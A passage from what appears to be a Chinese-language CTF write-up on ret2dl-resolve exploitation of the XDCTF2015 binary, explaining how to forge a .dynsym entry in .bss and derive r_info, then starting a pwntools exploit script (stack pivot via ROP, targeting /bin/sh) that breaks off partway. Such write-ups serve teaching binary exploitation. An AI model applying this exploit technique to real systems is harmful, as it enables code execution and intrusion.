 成功打印 bin/sh 就是执行成功了。

### **2.2.3 .dynsym**

上一节中，我们控制了Elf32_Rel。如果之后想调用system函数，那么r_info和r_offset肯定不能通过我们使用readelf自己读出。

r_offset用elf.got就可以得到，但r_info不能，那么下一步便要在.bss段上伪造一个dynsym，然后通过构造的dynsym反推出新的r_info。

dynsym结构：

```c
typedef struct
{
    Elf32_Word    st_name;//符号名
    Elf32_Addr    st_value;
    Elf32_Word    st_size;
    unsigned char st_info;
    unsigned char st_other;
    Elf32_Section st_shndx;
}Elf32_Sym
```

首先，我们根据 write 的重定位表项的 r_info=0x607 可以知道write 对应的符号在符号表的下标为 0x607>>8=0x6。因此，我们知道 write 对应的符号地址为 0x8048238。**name_offset=0x4c，st_value=0，st_size=0，st_info=0x12**

使用如下命令查看 .dynsym

```shell
objdump -s -EL -j .dynsym main
```

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d21.png?x-oss-process=style/watermark" style="zoom:80%;" />

我们将fake_dynsym放入bss段，放到fake_relloc后面，因此fake_dynsym的地址也就是base_stage+32，考虑到对齐问题（下面介绍），需要在fake_dynsym前面填充数个a（假设填充align个）。即fake_dynsym的地址：fake_dynsym_addr = align +base_stage + 32。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d22.png?x-oss-process=style/watermark)

关于对齐问题：因为dynsym大小为16字节，所以程序要找一个函数的dynsym节则要16个字节16个字节的找。base_stage + 32可能在任意位置，但这样是不行的，它的结构体只能从开头开始。因此我们需要地址对齐。在伪造dynsym前加上一段垃圾数据：align = 0x10-((base_stage+32-dynsym)&0xf)。

于是函数下标dynsym_index =(fake_sym_addr-dynsym)/16。而r_info是0x?07的形式， 07代表的是导入函数的意思，因此要推出r_info，只要将index_dynsym左移八位，再加上07标识符就可以了。因为bin(index_dynsym<<8)的后四位均为0，所以与上0x7实际上就相当于加0x7。r_info = (index_dynsym << 8) | 0x7。
程序在执行时，会在bss段（也就是我们写入的Elf32_Rel和 fake_dynsym）寻找相关地址，也就是说，r_offset、r_info、.dynsym都由我们控制，即控制了name_offset。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2dl/d23.png)

exp3：

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')
offset = 112
bss_addr = elf.bss()
r.recvuntil('Welcome to XDCTF2015~!\n')
stack_size = 0x800 #普遍是这个地址
base_stage = bss_addr + stack_size 
rop.raw('a' * offset)#在ROP链中填充offset个a
rop.read(0, base_stage, 100)#相当于call read，读取100个字节到base_stage，即第2段rop
rop.migrate(base_stage)#会将程序流程又转到base_stage
r.sendline(rop.chain()) #第一段栈迁移
rop = ROP('./main')
sh = "/bin/sh"
plt0 = elf.get_section_by_name('.plt').header.sh_addr #获得plt0的地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr#获得.rel.plt的地址
```